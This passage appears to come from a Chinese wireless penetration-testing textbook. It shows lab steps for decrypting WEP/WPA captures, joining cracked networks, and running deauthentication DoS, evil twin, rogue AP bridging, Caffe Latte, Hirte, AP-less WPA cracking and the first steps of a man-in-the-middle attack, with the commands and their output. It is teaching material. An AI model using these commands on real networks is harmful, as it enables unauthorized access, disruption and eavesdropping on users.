- 2. 解密后的文件存储在名为WEPCrackingDemo-02-dec.cap的文件中。我们使用**tshark**工具查看该文件中的前10个数据包。请注意，根据你的捕获内容，你可能会看到不同的内容：

- 3. WPA/WPA2 PSK的解密方式与WEP完全相同，同样使用**airdecap-ng**工具，命令如下，如下图所示：
``` airdecap-ng –p abcdefgh WPACrackingDemo-02.cap –e "Wireless Lab" ```

我们刚刚了解了如何使用Airdecap-ng解密WEP和WPA/WPA2-PSK加密的数据包。有趣的是，我们也可以使用Wireshark完成同样的操作。我们建议你通过查阅Wireshark文档来探索如何实现这一点。
## 连接WEP、WPA和WPA2网络
在破解网络密钥后，我们还可以连接到授权网络。这在渗透测试中非常有用。使用破解的密钥登录授权网络，是你能提供给客户的证明其网络不安全的最终证据。我们可以按照以下步骤操作：
- 1. 获取密钥后，使用**iwconfig**工具连接到WEP网络。我们破解的WEP密钥为abcdefabcdefabcdefabcdef12：

``` root@kali:~# iwconfig wlan0 essid "Wireless lab" key abcdefabcdefabcdefabcdef12
root@kali:~#
root@kali:~# iwconfig wlan0
wlan0 IEEE 802.11bgn ESSID:"Wireless lab"
Mode:Managed Access Point: Not-Associated
Tx-Power=20 dBm
Retry short limit:7
RTS thr:off
Fragment thr:off
Encryption key:ABCD-EFAB-CDEF-ABCD-EFAB-CDEF-12
Power Management:off
root@kali:~#
```
现在我们已连接到WEP网络，太棒了！
- 2. 对于WPA，情况会更复杂一些。iwconfig工具不支持WPA/WPA2 Personal和企业版，因此无法用于WPA连接。本次实验我们将使用名为WPA_supplicant的新工具。要使用WPA_supplicant连接网络，我们需要创建一个配置文件，如下图所示。我们将该文件命名为**wpa-supp.conf**：

``` # WPA-PSK/TKIP
network={
    ssid="Wireless Lab"
    key_mgmt=WPA-PSK
    proto=WPA
    pairwise=TKIP
    group=TKIP
    psk="abcdefgh"
}
```
- 3. 然后我们将使用以下选项调用WPA_supplicant工具，连接我们刚刚破解的WPA网络：
- 4. `-D wext -i wlan0 -c wpa-supp.conf`。连接成功后，WPA_supplicant会给出提示：**连接XXXX完成**。


5. 对于WEP和WPA网络，连接成功后，你可以使用**dhcpclient**工具，通过输入*dhclient3 wlan0*命令从网络获取DHCP地址。

## 小测验 – WLAN加密漏洞
#### Q1. 哪种数据包用于包重放攻击？
- 1. 解除认证数据包。
- 2. 关联数据包。
- 3. 加密ARP数据包。
- 4. 以上都不是。

#### Q2. 什么情况下可以破解WEP？
- 1. 任何情况都可以。
- 2. 仅当选择了弱密钥/口令时。
- 3. 仅在特殊情况下。
- 4. 仅当接入点运行旧版软件时。

#### Q3. 什么情况下可以破解WPA？
- 1. 任何情况都可以。
- 2. 仅当选择了弱密钥/口令时。
- 3. 如果客户端搭载旧版固件。
- 4. 即使没有客户端连接到无线网络。

### 总结
在本章中，我们学习了WLAN加密相关内容。WEP存在固有缺陷，无论WEP密钥是什么，只要有足够的数据包样本，就始终可以破解WEP。目前WPA/WPA2在密码学层面无法被破解；但在特殊情况下，例如WPA/WPA2-PSK选择了弱口令时，可以通过字典攻击获取口令。在下一章中，我们将了解针对WLAN基础设施的不同攻击类型，例如恶意接入点、邪恶双胞胎攻击、比特翻转攻击等。

## 第5章：WLAN基础设施攻击
WLAN基础设施是为系统中所有WLAN客户端提供无线服务的组件。在本章中，我们将了解可针对基础设施发起的各类攻击：
- 接入点上的默认账户及凭证
- 拒绝服务攻击
- 邪恶双胞胎攻击与接入点MAC地址欺骗
- 恶意接入点

### 接入点上的默认账户及凭证
WLAN接入点是基础设施的核心组成部分。尽管它们发挥着如此重要的作用，但在安全层面却常常最容易被忽视。在本练习中，我们将检查接入点上的默认密码是否已被修改。之后，我们还会验证：即使密码已被修改，仍然可以通过基于字典的攻击轻松猜解和破解。需要注意的是，随着我们进入更高级的章节，将默认你已经完成了前面章节的学习，熟悉了其中讨论的所有工具的使用方法。这样我们就能基于已有知识，尝试更复杂的攻击！

### 破解接入点上的默认账户
1. 首先连接到我们的名为Wireless Lab的接入点，尝试进入HTTP管理界面。我们发现该接入点型号为TP-Link WR841N，如下图所示：

2. 从厂商网站上，我们查得用户"admin"的默认账户凭证为"admin"。我们在登录页面尝试输入该凭证，成功完成了登录。这说明使用默认凭证的账户有多么容易被入侵。我们强烈建议你在线获取该路由器的用户手册。这能让你了解渗透测试中要应对的对象，还能深入了解其他可排查的配置缺陷：

- 你可以将密码修改为难以猜测、在字典中找不到的内容，再尝试用暴力破解的方式看是否能破解它。
- 限制密码的长度和字符范围，这样你就有机会成功破解。
- 用于破解HTTP认证的最常见工具之一是**Hydra**，该工具可在**Kali**系统中获取。

### 拒绝服务攻击
WLAN容易遭受**拒绝服务（DoS）**攻击，攻击者可利用多种技术发起此类攻击，包括但不限于以下几种：
- 解除认证攻击
- 取消关联攻击
- CTS-RTS攻击
- 信号干扰或频谱干扰攻击

在本章的讨论范围内，我们将通过以下实验了解针对WLAN基础设施发起的解除认证攻击：

### 解除认证拒绝服务攻击
1. 首先将Wireless Lab网络配置为使用开放认证且不加密。这样我们就可以轻松通过Wireshark查看数据包：

2. 将Windows客户端连接到接入点，我们可以在*airodump-ng*界面看到该连接：

3. 现在，在攻击者机器上，我们对该目标发起定向解除认证攻击：
```root@kali:~# aireplay-ng -0 5 -a E8:94:F6:62:1E:8E --ignore-negative-one mon0
22:24:44 Waiting for beacon frame (BSSID: E8:94:F6:62:1E:8E) on channel -1
NB: this attack is more effective when targeting a connected wireless client (-c <client's mac>).
22:24:46 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
22:24:46 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
22:24:47 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
22:24:47 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
22:24:47 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
root@kali:~#
```
4. 请注意客户端已经完全与接入点断开连接，我们也可以在*airodump-ng*界面验证这一点：
| BSSID | 信号强度 | 信标帧数 | 数据包数 | 每秒数据包数 | 信道 | 速率 | 加密方式 | 加密算法 | 认证方式 | ESSID |
|-------|-----|---------|-------|-----|----|----|-----|--------|------|-------|
| E8:94:F6:62:1E:8E | -49 | 2 | 0 | 0 | 6 | 54e. | OPN | | | Wireless Lab |
5. 如果我们用Wireshark查看流量，会注意到空中出现了大量我们刚刚发送的解除认证数据包：
### 从mon0捕获 [Wireshark 1.10.6 (v1.10.6 from master-1.10)]
文件 编辑 查看 跳转 捕获 分析 统计 电话 工具 内部 帮助
| 序号 | 时间 | 源地址 | 目标地址 | 协议 | 长度 | 信息 |
|-----|------|--------|-------------|----------|--------|------|
| 27834 | 499.23833600 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27835 | 499.24721100 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27836 | 499.30009400 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27837 | 499.30448700 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 111 | DeAuthenti |
| 27838 | 499.31687000 | Netgear_2a:7b:c0 | Broadcast | 802.11 | 293 | Beacon fra |
| 27839 | 499.31703700 | Netgear_40:c0:a7 | Broadcast | 802.11 | 124 | Data, SN=1 |
| 27840 | 499.37000000 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27841 | 499.37665700 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27842 | 499.39659100 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27843 | 499.40761700 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27844 | 499.41927000 | Netgear_2a:7b:c0 | Broadcast | 802.11 | 293 | Beacon fra |
| 27845 | 499.45302700 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27846 | 499.45948700 | Tp-LinkT_62:1e:8e | Broadcast | 802.11 | 52 | Deauthenti |
| 27847 | 499.52169800 | Netgear_2a:7b:c0 | Broadcast | 802.11 | 293 | Beacon fra |
| 27848 | 499.62410500 | Netgear_2a:7b:c0 | Broadcast | 802.11 | 293 | Beacon fra |
```
``` 
0000 00 00 1a 00 2f 48 00 00 bd 10 c1 1b 2c 00 00 00 ....../H.......,...
0010 02 18 9e 09 c0 00 cb 00 00 00 80 00 00 00 ff ff ................
0020 ff ff ff ff 9c d3 6d 2a 7b c0 9c d3 6d 2a 7b c0 ....m*{...m*{.
0030 40 ec 80 11 c1 1b 2c 00 00 00 64 00 11 04 00 1f @......,...,.d....
```
6. 我们还可以模拟接入点向整个无线网络发送广播解除认证数据包，发起同样的攻击，此举会导致所有已连接的客户端断开连接：
## root@kali:~ 文件 编辑 查看 搜索 终端 标签 帮助
```root@kali:~# aireplay-ng -0 0 -a E8:94:F6:62:1E:8E --ignore-negative-one mon0
15:46:43 Waiting for beacon frame (BSSID: E8:94:F6:62:1E:8E) on channel -1
NB: this attack is more effective when targeting a connected wireless client (-c <client's mac>).
15:46:50 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
15:46:51 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
15:46:54 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
15:46:55 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
15:46:55 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
15:46:56 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
15:46:56 Sending DeAuth to broadcast -- BSSID: [E8:94:F6:62:1E:8E]
```


我们成功向接入点和客户端双方都发送了去认证帧，导致二者断开连接、彼此之间的通信完全中断。我们还发送了广播去认证数据包，可确保周边没有任何客户端能够成功连接至我们的接入点。需要特别说明的是，客户端一旦断开连接，就会立刻尝试重新接入接入点，因此想要实现完全拒绝服务的效果，就必须持续发起去认证攻击。这是最容易实施的攻击之一，但破坏性极强，在真实场景中完全可以轻易用其让无线网络彻底瘫痪。你可以尝试了解如何使用Kali中现有的工具，针对网络基础设施发起解除关联攻击，你能完成广播解除关联攻击吗？
### 邪恶双胞胎与接入点MAC地址欺骗
针对WLAN（无线局域网）基础设施最具破坏力的攻击之一就是邪恶双胞胎攻击。这种攻击的核心思路是，在目标WLAN周边部署一个由攻击者控制的接入点，该接入点会广播与合法WLAN完全相同的SSID。许多无线用户可能会误将其连入该恶意接入点，以为其是合法网络的一部分。一旦建立连接，攻击者就可以发起中间人攻击，在透明转发流量的同时窃听全部通信内容。我们将在后续章节中介绍中间人攻击的具体实施方式。真实场景中，攻击者通常会选择在合法网络附近发起此类攻击，让用户混淆，误连入攻击者的网络。如果邪恶双胞胎与合法接入点拥有相同的MAC地址，检测和防范的难度会进一步提升，这也正是接入点MAC地址欺骗的用武之地！在下一个实验中，我们将了解如何创建邪恶双胞胎，并结合接入点MAC地址欺骗技术。请按照以下说明开始操作：
- 1. 使用airodump-ng定位我们希望在邪恶双胞胎中模拟的接入点的BSSID和ESSID：
```
BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID 
E8:94:F6:62:1E:8E -49 2 0 0 6 54e. OPN PSK Wireless Lab 
BSSID STATION PWR Rate Lost Frames Probe 
9C:D3:6D:2A:7B:C0 20:10:7A:45:36:61 -71 2e- 5e 0 9 
9C:D3:6D:2A:7B:C0 70:18:8B:08:47:B6 -59 0e- 0e 0 2 
```
- 2. 将无线客户端连接至该接入点。
- 3. 利用这些信息，我们使用airbase-ng命令创建一个与前者ESSID相同、但BSSID和MAC地址不同的新接入点。新版本的软件可能会出现轻微报错：
```
root@kali:~# airbase-ng --essid Rogue -c 11 mon0 
15:56:06 Created tap interface at0 
15:56:06 Trying to set MTU on at0 to 1500 
15:56:06 Access Point with BSSID 80:1F:02:8F:34:D5 started. 
Error: Got channel -1, expected a value > 0. 
```
- 4. 这个新接入点也会出现在airodump-ng的界面中。需要特别说明的是，你需要新开一个终端窗口，使用以下命令运行airodump-ng：
```
airodump-ng --channel 11 wlan0 
```
- 5. 现在向客户端发送去认证帧，使其断开连接并立刻尝试重新接入：

- 6. 由于我们距离该客户端更近，信号强度更高，客户端会连接至我们的邪恶双胞胎接入点。
- 7. 我们还可以使用以下命令欺骗接入点的BSSID和MAC地址：
```
airbase-ng -a <router mac> --essid "Wireless Lab" -c 11 mon0 
```
- 8. 现在如果通过`airodump-ng`查看，几乎无法从视觉上区分两个接入点。
- 9. 即便是`airodump-ng`也无法识别出同一信道上实际存在两个不同的物理接入点。这是最为强大的邪恶双胞胎攻击形式。我们为合法网络创建了邪恶双胞胎，并通过去认证攻击让合法客户端放弃连接原本的合法网络接入点，转而连接至我们的设备。需要特别说明的是，如果合法接入点使用了WEP/WPA等加密方式，那么发起可窃听流量的攻击难度会更高。
#### 恶意接入点
恶意接入点是指连接至合法网络的未授权接入点。通常情况下，攻击者可以将其作为后门入口，从而绕过网络上的全部安全管控措施。这意味着 guarding 网络边界的防火墙、入侵防御系统等安全设施几乎无法阻止攻击者访问网络。最常见的恶意接入点会设置为开放认证、无加密状态。恶意接入点可以通过以下两种方式创建：
- 在合法网络上部署实体物理设备作为恶意接入点。此外，这不仅是无线安全问题，更涉及对合法网络的物理安全防护的破坏。
- 通过软件创建恶意接入点，并将其与本地合法网络的有线以太网网桥接。这种方式可以让几乎所有运行在合法网络上的笔记本电脑都摇身一变成为恶意接入点。
请按照以下说明开始操作：
- 1. 首先我们使用*airbase-ng*启动恶意接入点，并将其ESSID设置为Rogue：

- 2. 现在我们想要在属于合法网络的有线接口与我们的恶意接入点接口之间创建网桥。为此，我们首先需要安装*bridge-utils*工具包，创建网桥接口并将其命名为*Wifi-Bridge*。以下截图展示了所需命令的执行过程：
```
apt-get install bridge-utils 
```
```
brctl addbr Wifi-Bridge 
```
以下是该命令的执行输出：

- 3. 接下来我们将有线接口与*Airbase-ng*创建的At0虚拟接口都添加到该网桥中：
```
brctl addif Wifi-Bridge eth0 
```
```
brctl addif Wifi-Bridge ath0 
```

- 4. 接下来我们将启动这些接口以启用网桥，使用以下命令即可：
```
ifconfig eth0 0.0.0.0 up 
ifconfig ath0 0.0.0.0 up 
```

- 5. 接下来我们将在内核中启用IP转发功能，确保数据包可以被正常转发：
```
echo 1 > /proc/sys/net/ipv4/ip_forward 
```

- 6. 大功告成！现在任何连接至我们恶意接入点的无线客户端，都可以通过刚刚搭建的无线-有线**Wifi-Bridge**完全访问合法网络。我们可以通过将客户端连接至恶意接入点来验证这一点。
- 7. 现在我们可以通过这个恶意接入手，从该无线客户端访问有线网络上的任意主机。我们创建了恶意接入点，并借助它将全部合法网络的局域网流量桥接至无线网络。由此可见，这是一个极为严重的安全威胁，任何人都可以通过该网桥入侵有线网络。
#### 小测验——WLAN基础设施攻击
Q1. 大多数情况下恶意接入点使用哪种加密方式？
1. 无加密
2. WEP
3. WPA
4. WPA2
Q2. 邪恶双胞胎与合法接入点拥有相同MAC地址的优势是什么？
1. 会增加检测到邪恶双胞胎的难度
2. 强制客户端连接至该接入点
3. 提升网络的信号强度
4. 以上都不是
Q3. DoS（拒绝服务）攻击的作用是什么？
1. 会导致网络整体吞吐量下降
2. 不会以客户端为目标
3. 只有获取网络的WEP/WPA/WPA2凭据后才能发起
4. 以上全部
Q4. 恶意接入点的作用是什么？可以通过哪些方式创建？
1. 可以作为后门入口进入合法网络
2. 仅使用WPA2加密
3. 可以以软件接入点形式创建，也可以是实体设备
4. 1和3均正确


## 摘要
- 攻占接入点的默认账户和凭据。
- 拒绝服务攻击。
- 邪恶双胞胎和MAC欺骗。
- 企业网络中的恶意接入点。
在下一章中，我们将了解针对无线局域网客户端的不同攻击。有趣的是，大多数管理员认为客户端不存在需要担忧的安全问题，但我们会看到事实远非如此。

## 第6章：攻击客户端
在本章中，我们将把关注重点从WLAN基础设施转向无线客户端。客户端既可以是已连接的，也可以是隔离的未关联客户端。我们将了解针对客户端的各类攻击，涵盖以下主题：
- 蜜罐与错误关联攻击
- 拿铁攻击
- 希尔特攻击
- 无接入点WPA个人版破解

### 蜜罐与错误关联攻击
通常情况下，当笔记本等无线客户端开机后，会扫描其曾经连接过的网络。这些网络会被存储在Windows系统中的一份名为**首选网络列表（PNL）**的列表中。此外，除了这份列表外，无线客户端还会显示其信号范围内的所有可用网络。
黑客可能会采取以下一项或多项操作：
- 静默扫描客户端的探测请求，启动与客户端正在搜索的网络ESSID相同的虚假接入点。这会导致客户端误以为该虚假接入点是合法网络，从而连接到黑客的设备。
- 创建与周边网络ESSID相同的虚假接入点，诱使用户连接到该接入点。这类攻击在用户通常会寻找Wi-Fi连接的咖啡店、机场等场所极易实施。
- 利用记录下来的信息获知受害者的行动轨迹与习惯。
这类攻击被称为蜜罐攻击，因为黑客的接入点会与合法接入点产生错误关联。

### 实施错误关联攻击
1. 此前我们曾使用过连接到Wireless Lab接入点的客户端。现在请开启客户端，但不启动实际的Wireless Lab接入点。随后运行*airodump-ng mon0*命令并查看输出结果，你很快会发现客户端处于未关联状态，正在扫描其存储配置文件中保存的Wireless Lab及其他SSID：

2. 为了解当前发生了什么，我们运行Wireshark并开始在**mon0**网卡上抓包。不出所料，你会看到大量与分析无关的数据包。此时请应用Wireshark过滤规则，仅显示你所使用的客户端MAC地址发送的探测请求数据包：

3. 我使用的过滤规则为`wlan.fc.type_subtype == 0x04 && wlan.sa == <my mac>`，此时你应该只能看到该客户端针对此前识别到的SSID发送的探测请求数据包。
4. 现在我们在黑客设备上使用以下命令启动针对Wireless Lab网络的虚假接入点：
```airbase-ng -c 3 -e "Wireless Lab" mon0```

5. 大约一分钟左右，客户端就会自动连接到我们的设备。这说明诱使未关联客户端接入是非常容易的：

6. 现在我们将测试在与另一台路由器共存的情况下发起攻击的场景。我们将在合法Wireless Lab接入点开启的状态下，创建同名的虚假接入点。请开启我们的接入点，确保客户端可以搜索到Wireless Lab网络。本次实验中我们将接入点信道设置为3，先让客户端连接到该合法接入点，我们可以通过*airodump-ng*验证连接状态，如下图所示：

7. 现在让我们启动SSID为Wireless Lab的虚假接入点：

8. 请注意，此时客户端仍然连接着合法的Wireless Lab接入点：

9. 现在我们将伪装成合法接入点，向客户端发送广播解除认证消息，断开客户端与合法接入点的连接：

10. 假设我们的虚假Wireless Lab接入点向客户端发送的信号强度比合法接入点更强，客户端就会连接到我们的虚假接入点，而非合法接入点：

11. 我们可以通过查看airodump-ng的输出结果，验证客户端已经与我们的虚假接入点建立了新的关联：

我们刚刚利用客户端的探测列表以及和周边接入点相同的ESSID，成功创建了一个蜜罐。第一种情况下，客户端正在搜索目标网络，因此会自动连接到我们的设备；第二种情况下，由于我们距离客户端比真实接入点更近，信号强度更高，因此客户端也连接到了我们的设备。

### **如果客户端没有自动连接到我们该怎么办？**
此时我们需要发送**解除认证**数据包，断开客户端与合法接入点的连接，如果我们的信号强度更高，客户端就会连接到我们伪造的接入点。你可以尝试将客户端连接到合法接入点，再强制其连接到你的蜜罐来测试这一效果。

### 拿铁攻击
在蜜罐攻击中，我们发现客户端会持续扫描其曾经连接过的SSID。如果客户端曾通过WEP协议连接到某个接入点，Windows等操作系统会缓存并存储该WEP密钥。下次客户端再次连接同一接入点时，Windows无线配置管理器会自动调用存储的密钥。
拿铁攻击是一种WEP攻击手段，黑客仅通过客户端就能获取授权网络的WEP密钥。该攻击不需要客户端处于授权WEP网络的附近，仅用隔离的客户端即可破解WEP密钥。
接下来，我们将演示如何通过拿铁攻击从客户端获取网络的WEP密钥。

### 实施拿铁攻击
1. 首先我们设置合法的接入点，为**Wireless Lab**网络配置WEP加密，十六进制密钥为ABCDEFABCDEFABCDEF12：

2. 将客户端连接到该接入点，我们可以通过**airodump-ng**验证连接是否成功。
3. 拔掉接入点的电源，确保客户端处于未关联状态，并正在搜索**Wireless Lab**这个WEP网络。
4. 现在我们使用**airbase-ng**启动一个SSID为**Wireless Lab**的接入点，参数如下图所示：

5. 客户端一连接到这个接入点，**airbase-ng**就会启动拿铁攻击，如下图所示：

6. 现在我们启动airodump-ng，仅收集该接入点的数据包，操作和之前WEP破解场景中的步骤一致：
```root@kali:~# airodump-ng mon0 --bssid 4C:0F:6E:70:BD:CB -w keystream```
7. 我们同样启动**aircrack-ng**，和之前的WEP破解练习一样开始破解流程。命令行为**aircrack-ng** 文件名，其中文件名为**airodump-ng**生成的文件名。
我们成功仅通过无线客户端就获取了WEP密钥，不需要实际接入点参与，也不需要它在附近存在。这就是拿铁攻击的威力。
从基本原理来看，WEP接入点不需要向客户端证明自己知道WEP密钥，就能接收加密流量。第一段


设备连接到新网络时，总会发送给路由器的流量是用于请求IP地址的ARP请求。

该攻击通过比特翻转并重放无线客户端与我们搭建的伪造接入点建立关联后发送的ARP数据包实现。这些经过比特翻转的ARP请求包会触发无线客户端发送更多ARP响应包。比特翻转操作会获取加密值并将其修改，生成不同的加密值。在这种情况下，我们可以获取加密的ARP请求，并以极高的准确率生成对应的ARP响应。一旦我们返回有效的ARP响应，就可以反复重放该值，生成解密WEP密钥所需的流量。
> 注意，所有这些数据包都是使用存储在客户端上的WEP密钥加密的。
一旦我们收集到大量这类数据包，aircrack-NG就可以轻松恢复出WEP密钥。
> 尝试更换WEP密钥后重复执行该攻击。
这是一种难度较高的攻击，需要一定练习才能成功实施。建议使用Wireshark工具检查无线网络的流量。

## Hirte攻击
我们已经了解了如何实施拿铁攻击。Hirte攻击通过分片技术对拿铁攻击进行了扩展，几乎可以使用任意数据包。
- 1. 使用airbase-ng工具按照拿铁攻击的步骤创建WEP接入点。唯一的额外参数是将启动Hirte攻击的`-L`选项替换为`-N`选项：
``` root@kali:~# airbase-ng -c 3 -a E8:94:F6:62:1E:8E -e "Wireless Lab" -L -W 1 mon0 ```
- 2. 在独立窗口中启动airodump-ng，捕获**Wireless Lab蜜罐**的数据包：
``` root@kali:~# airodump-ng -c 3 --bssid 80:1F:02:8F:34:D5 --write Hirte mon0 ```
- 3. 现在airodump-ng会开始监控该网络，并将捕获的数据包存储到Hirte-01.cap文件中：
``` CH 3 ][ Elapsed: 0 s ][ 2014-11-08 16:54 ][ fixed channel mon0: -1 ```
| BSSID | PWR | RXQ | Beacons | #Data, | #/s | CH | MI | INC | CIPHER | AUTH | ESSID |
|--------------------|-----|-----|---------|--------|-----|----|----|-----|--------|------|-------|
| 80:1F:02:8F:34:D5 | 0 | 100 | 32 | 0 | 0 | 3 | 54 | WEP | WEP | W |

| | BSSID | STATION | PWR | Rate | Lost | Frames | Probe |
|-------|---------|-----|------|------|--------|-------|
| | | | | | | | |

- 4. 一旦漫游客户端连接到我们的蜜罐接入点，**airbase-ng**会自动启动Hirte攻击：
``` root@kali:~# airbase-ng -c 3 -e "Wireless Lab" -W 1 -N mon0 16:52:48 Created tap interface at0 16:52:48 Trying to set MTU on at0 to 1500 16:52:48 Access Point with BSSID 80:1F:02:8F:34:D5 started. Error: Got channel -1, expected a value > 0. 16:53:31 Client 00:EE:BD:B3:62:DE associated (WEP) to ESSID: "Wireless Lab" 16:55:03 Client 00:EE:BD:B3:62:DE associated (WEP) to ESSID: "Wireless Lab" 16:55:07 Starting Hirte attack against 00:EE:BD:B3:62:DE at 100 pps. ```
- 5. 我们按照拿铁攻击的步骤启动aircrack-ng，最终即可破解出密钥。我们针对一台与授权网络隔离的WEP客户端实施了Hirte攻击，破解密钥的方式与拿铁攻击完全一致。我们建议在客户端上设置不同的WEP密钥，多次尝试该实验以熟练掌握操作。你可能会注意到，很多时候需要重新连接客户端才能使攻击生效。

## 无接入点的WPA个人版破解
在第4章中，我们了解了如何使用aircrack-ng破解WPA/WPA2 PSK。其基本思路是捕获WPA四次握手包，然后发起字典攻击。
问题在于：仅使用客户端、无需接入点的情况下，是否能够破解WPA个人版？

要破解WPA，我们需要从四次握手中获取以下四个参数：认证方随机数（Authenticator Nonce）、请求方随机数（Supplicant Nonce）、认证方MAC地址（Authenticator MAC）、请求方MAC地址（Supplicant MAC）。
现在有趣的是，我们无需获取四次握手中的全部四个数据包，就能提取这些信息。我们可以通过四个数据包获取这些信息：第1和第2个包，或者仅第2和第3个包即可。
为了破解WPA-PSK，我们将搭建一个WPA-PSK蜜罐，当客户端连接到我们时，只会传输消息1和消息2。由于我们不知道密码短语，因此无法发送消息3。不过，消息1和消息2包含了启动密钥破解流程所需的全部信息：

开始实操吧！
- 1. 我们将搭建ESSID为**Wireless Lab**的WPA-PSK蜜罐。`-z 2`参数会创建使用TKIP加密的WPA-PSK接入点：
``` root@kali:~# airbase-ng -c 3 -e "Wireless Lab" -W 1 -z 2 mon0 16:56:44 Created tap interface at0 16:56:44 Trying to set MTU on at0 to 1500 16:56:44 Access Point with BSSID 80:1F:02:8F:34:D5 started. Error: Got channel -1, expected a value > 0. ```
- 2. 我们同样启动**airodump-ng**来捕获该网络的数据包：
``` root@kali:~# airodump-ng -c 3 --bssid 80:1F:02:8F:34:D5 --write AP-less-WPA-cracking mon0 ```
- 3. 现在当我们的漫游客户端连接到该接入点时，会启动握手流程，但如前所述，在消息2之后握手会失败；不过，破解握手所需的全部数据已经被捕获。
- 4. 我们将airdump-ng的捕获文件与之前的字典文件一起交给aircrack-ng处理，最终即可像之前一样破解出密码短语。

### 测验——攻击客户端
Q1. 拿铁攻击可以恢复哪种加密密钥？
- 1. 无
- 2. WEP
- 3. WPA
- 4. WPA2
Q2. 蜜罐接入点通常会使用哪种配置？
- 1. 无加密，开放认证
- 2. 无加密，共享认证
- 3. WEP加密，开放认证
- 4. 以上都不是
Q3. 以下哪项属于拒绝服务（DoS）攻击？
- 1. 错误关联攻击
- 2. 反认证攻击
- 3. 解关联攻击
- 4. 2和3都是
Q4. 拿铁攻击需要满足什么条件？
- 1. 无线客户端处于接入点的无线电覆盖范围内
- 2. 客户端中缓存并存储了WEP密钥
- 3. 使用至少128位加密的WEP加密
- 4. 1和3都是

### 本章总结
在本章中，我们了解到甚至无线客户端也会遭受攻击。这些攻击包括：蜜罐及其他错误关联攻击、用于从无线客户端获取密钥的拿铁攻击、造成拒绝服务的反认证与解关联攻击、用于从漫游客户端获取WEP密钥的Hirte攻击，以及最后一种仅需客户端即可破解WPA个人版密码短语的攻击。

## 第7章：高级无线攻击
作为渗透测试人员，了解黑客可以实施的高级攻击是非常重要的，即便你在渗透测试过程中可能不会检查或演示这些攻击。本章将重点展示黑客如何以无线接入为起点实施高级攻击。在本章中，我们将学习如何利用目前所学知识实施高级攻击。我们将主要聚焦于**中间人攻击（MITM）**，该攻击需要一定的技能和实践才能成功实施。完成中间人攻击后，我们将以此为基础，实施更复杂的攻击，例如窃听和会话劫持。在本章中，我们将涵盖以下主题：
- 中间人攻击
- 基于MITM的无线窃听
- 基于MITM的会话劫持

## 中间人攻击
中间人攻击是WLAN系统中最具危害性的攻击之一。实施该攻击有多种配置方式，我们将使用最常见的一种：攻击者通过有线局域网连接到互联网，并在自己的客户端网卡上创建一个伪造接入点。该接入点会广播与周边本地热点相似的SSID。用户可能会意外连接到该伪造接入点（或者根据我们之前章节讨论过的信号强度优先理论被强制连接），并且会继续认为自己连接的是合法接入点。此时，攻击者就可以通过自己在有线接口和无线接口之间搭建的网桥，透明转发用户的所有互联网流量。


## 无线中间人攻击环境搭建
### 步骤1：创建名为mitm的软接入点
请按照以下说明开始操作：
要搭建中间人攻击环境，我们首先会在攻击者笔记本上使用airbase-ng工具创建一个名为mitm的软接入点。我们执行以下命令：
```airbase-ng --essid mitm -c 11 mon0```
命令输出如下：
```root@kali:~# airbase-ng --essid mitm -c 11 mon0
11:48:59 Created tap interface at0
11:48:59 Trying to set MTU on at0 to 1500
11:48:59 Access Point with BSSID 80:1F:02:8F:34:D5 started.
```
### 步骤2：记录airbase-ng创建的at0接口
需要注意，airbase-ng运行时会产生一个名为at0的接口（即tap虚拟网卡）。可以将其视为软件接入点mitm的有线侧接口：
```root@kali:~# ifconfig at0
at0      Link encap:Ethernet  HWaddr 80:1f:02:8f:34:d5
          BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:500
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```
### 步骤3：在攻击者笔记本上创建网桥
接下来我们要在攻击者笔记本上创建一个网桥，该网桥由有线网卡（eth0）和无线接口（at0）组成。所需的命令依次如下：
- [x] brctl addbr mitm-bridge
- [x] brctl addif mitm-bridge eth0
- [x] brctl addif mitm-bridge at0
- [x] ifconfig eth0 0.0.0.0 up
- [x] ifconfig at0 0.0.0.0 up
命令输出如下：
```root@kali:~# ifconfig at0
at0      Link encap:Ethernet  HWaddr 80:1f:02:8f:34:d5
          BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:500
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
root@kali:~# brctl addbr mitm-bridge
root@kali:~# brctl addif mitm-bridge eth0
root@kali:~# brctl addif mitm-bridge at0
root@kali:~# ifconfig eth0 0.0.0.0 up
root@kali:~# ifconfig at0 0.0.0.0 up
```
### 步骤4：为网桥分配IP地址并验证连通性
我们可以为该网桥分配IP地址，并检查与网关的连通性。请注意，我们也可以使用DHCP来完成这一步。我们可以通过以下命令为网桥接口分配IP地址：
```ifconfig mitm-bridge 192.168.0.199 up```
之后我们可以尝试ping网关192.168.0.1，来确认我们已经连接到整个网络。
### 步骤5：开启内核的IP转发功能
